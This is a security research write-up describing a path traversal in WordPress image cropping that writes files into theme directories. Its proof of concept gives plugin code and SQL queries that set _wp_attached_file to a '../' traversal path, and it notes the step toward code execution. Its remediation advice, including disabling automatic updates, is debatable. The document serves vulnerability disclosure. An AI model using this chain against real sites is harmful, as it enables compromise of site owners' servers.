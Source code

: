 # WordPress write image to any directory RCE

Image cropping in WordPress is sort of unlucky, specially derivation of final image path ( file system or http/s location ), where image will be loaded from the path, but decisions for additional directories creation and final path (no traversal prevention here) are taken from `_wp_attached_file`. Those issues are subject for deeper observation and debugging which will happen in the very near future, for now we need to get another conclusion.

## Eli5 PoC
- Upload image to your local WP and name it wpdeeply.png (in order to be able to use copy paste from here in next steps)
- Get attachment_id (post_id of the image)
- Enable hello.php plugin and add this code at the end of the file
```
function wprcedemo(){
    
    //add your attachment_id here - mine is 77
    $attachment_id = 77;
    
    if ( ! function_exists( 'wp_crop_image' ) ) {
        include ABSPATH . 'wp-admin/includes/image.php';
    }

    wp_crop_image($attachment_id, 0, 0, 300, 300, 300, 300);
    
    exit("good :)");
}

add_action("init", "wprcedemo");

```

- Open mysql administration tool and execute following query

```
UPDATE `wp_postmeta` SET `meta_value` =  concat('2020/07/wpdeeply.png#/','boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
```

- Refresh the home page (good :) should be printed) and under `2020/07` there should be new directory `wpdeeply.png#`
- Open mysql administration tool and execute following query

```
UPDATE `wp_postmeta` SET `meta_value` = concat('2020/07/wpdeeply.png#/../../../../themes/twentytwenty/boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
``` 

- Refresh the home page (good :) should be printed) and under `twentytwenty` theme should be `cropped-boom.png` file
- `_wp_page_template` meta_value away from RCE 

## Few facts
- WordPress allows files with valid image extension and any content in it (not complete security patches from the past)
- This bug is also part of not complete security patch in the past
- `_wp_attached_file` value becomes holy grail of WordPress security and still there are ways to interfere with it (via core)
- WP core via its site-health push users to install/configure WP in that way so core files are writable by web server

## Remediation
- Core files shouldn't be writable by www-data user
- Theme files shouldn't be writable by www-data user too 
- Turn automatic updates for WP core, plugins, themes OFF
